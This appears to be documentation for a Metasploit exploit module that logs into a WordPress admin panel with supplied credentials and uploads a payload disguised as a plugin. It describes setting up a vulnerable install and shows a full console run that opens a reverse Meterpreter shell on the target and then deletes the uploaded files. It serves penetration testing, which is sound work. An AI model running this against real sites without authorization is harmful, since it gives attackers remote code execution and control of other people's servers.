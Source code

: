 ## Vulnerable Application

This module takes an administrator username and password, logs into the
admin panel, and uploads a payload packaged as a WordPress plugin.
Becuase this is authenticated code execution by design, it should work
on all versions of WordPress.

### Vulnerable Application Installation

You can get WordPress from [https://wordpress.org/download/](https://wordpress.org/download/)
or from some Linux package managers. [Debian maintains an installation
guide](https://wiki.debian.org/WordPress) that also works on Ubuntu.
Note that in a default install of WP from apt, the plugins directory is
owned by root, so unless you chown it to the web user, this module will
not work. Doing so is common in real-world deployments to allow
legitimate administrators to install plugins, so it is not unreasonable
for your own installation.


## Verification steps

```
msf > use exploit/unix/webapp/wp_admin_shell_upload
msf exploit(wp_admin_shell_upload) > set USERNAME admin
USERNAME => admin
msf exploit(wp_admin_shell_upload) > set PASSWORD password
PASSWORD => password
msf exploit(wp_admin_shell_upload) > set TARGETURI /wp/
TARGETURI => /wp/
msf exploit(wp_admin_shell_upload) > run

[*] Started reverse TCP handler on 0.0.0.0:4444
[*] Authenticating with WordPress using admin:password...
[+] Login successful
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Acquired a plugin upload nonce: afa507398f
[*] Uploaded plugin iHNhrYLmGR
[*] Executing the payload at /wp/wp-content/plugins/iHNhrYLmGR/DcrpFXPOCG.php...
[*] Sending stage (33986 bytes) to 192.168.100.131
[*] Meterpreter session 2 opened (192.168.100.1:4444 -> 192.168.100.131:40039) at 2017-04-21 11:36:33 -0500
[+] Deleted DcrpFXPOCG.php
[+] Deleted iHNhrYLmGR.php

meterpreter > pwd
/var/lib/wordpress/wp-content/plugins/iHNhrYLmGR
meterpreter >
```


